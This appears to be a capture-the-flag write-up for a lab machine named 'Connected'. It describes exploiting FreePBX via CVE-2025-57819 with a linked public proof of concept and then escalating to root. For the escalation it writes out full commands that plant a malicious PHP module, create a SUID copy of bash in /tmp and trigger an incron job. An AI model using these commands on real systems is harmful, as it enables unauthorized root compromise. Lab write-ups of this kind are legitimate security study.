



# Connected

## Enumeration

Ports 22, 80, and 443 were open. On ports 80 and 443, a web application running FreePBX 16.0.40.7 was identified. This version is vulnerable to CVE-2025-57819.

## Initial Access

To exploit this vulnerability, the exploit from the following repository was used:

https://github.com/b4sh2/CVE-2025-57819-poc

As shown in the following image, the exploit successfully achieves remote code execution.



With this access, it is possible to obtain the user flag.

## Privilege Escalation

The `incron` process was running on the machine. `incron` was monitoring the file `/usr/local/asterisk/ha_trigger`, and the `asterisk` user had write permissions to it, as shown in the following image.



When this file is modified, the contents of the script `/usr/sbin/sysadmin_ha` are executed. This script loads the PHP module `/var/www/html/admin/modules/freepbx_ha/functions.inc/incron.php`, which is located in a directory where the `asterisk` user has write permissions. By creating this file, it is possible to execute arbitrary code as root.

The following commands create a malicious PHP module that copies the Bash binary to `/tmp`, sets the SUID bit on it, and then triggers `incron` by writing to the monitored file:

```bash
cat << 'EOF' > /var/www/html/admin/modules/freepbx_ha/functions.inc/incron.php
<?php

class incron {
    function rootTrigger() {
        system("cp /bin/bash /tmp/rootbash");
        system("chmod 4755 /tmp/rootbash");
    }
}

?>
EOF

echo test > /usr/local/asterisk/ha_trigger
```

The following image show the achivement of root:


